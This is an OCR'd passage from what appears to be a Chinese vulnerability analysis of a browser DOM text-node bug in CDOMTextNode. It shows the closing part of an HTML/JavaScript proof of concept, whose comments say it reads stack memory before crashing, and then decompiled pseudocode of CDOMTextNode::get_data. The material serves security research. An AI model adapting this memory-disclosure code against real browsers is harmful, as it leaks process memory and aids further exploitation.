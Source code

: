 ```html
        if (sHexQWord) {
          while (sHexQWord.length < 17) {
            if (sHexQWord.length == 8) sHexQWord += "`";
            sHexQWord = "????" + sHexQWord;
          }
          sHexData += " " + sHexQWord;
        }
        alert(sHexData);
        // 代码执行到这里的时候会crash
        // 但是这里已经可以读取栈上的数据了
        oTextNode.nodeValue = "";
      };
    </script>
  </head>
  <body>x<x id=oExistingChild></x></body>
</html>
```

#### 2.3 Code Analyze

上面这个利用流程，比较关键的几个函数是CDOMTextNode::get_data、CDOMTextNode::get_length

读取数据的函数是CDOMTextNode::get_data，代码如下

```cc
__int64 __fastcall CDOMTextNode::get_data(CDOMTextNode *this, unsigned __int16 **a2)
{
  unsigned __int16 **v2; // rbx@1
  CDOMTextNode *this_rdi; // rdi@1
  Tree::TextData *v4; // rcx@2
  __int32 v5; // eax@4
  BSTR v6; // rax@4
  int v7; // ebp@4
  struct CTreePos *v8; // rax@4
  struct CTreePos *v9; // rsi@4
  Tree::TextNode *v10; // rdi@4
  unsigned __int16 *v11; // rax@5
  Tree::ANode *v12; // rax@5
  CTreePos *v13; // rcx@6
  __int64 v14; // r9@9
  const OLECHAR *v15; // rax@9
  UINT v16; // er9@9
  BSTR v17; // rax@9
  UINT ui; // [sp+48h] [bp+10h]@4
  unsigned __int32 v20; // [sp+50h] [bp+18h]@5

  v2 = a2;
  this_rdi = this;
  if ( a2 )
  {
    *a2 = 0i64;
    v4 = (Tree::TextData *)*((_QWORD *)this + 6);
    if ( v4 )
    {
      v14 = *(_DWORD *)v4;
      v15 = Tree::TextData::GetText(v4, 0, 0i64);
      v17 = SysAllocStringLen(v15, v16);
      *v2 = (unsigned __int16 *)Abandonment::CheckAllocationUntyped(v17);
    }
    else if ( CDOMTextNode::IsPositioned(this_rdi) )
    {
      ui = 0;
      v5 = CDOMTextNode::get_length(this_rdi, (__int32 *)&ui);
      Abandonment::CheckHRESULTStrict(v5);
      v6 = SysAllocStringLen(0i64, ui);
```
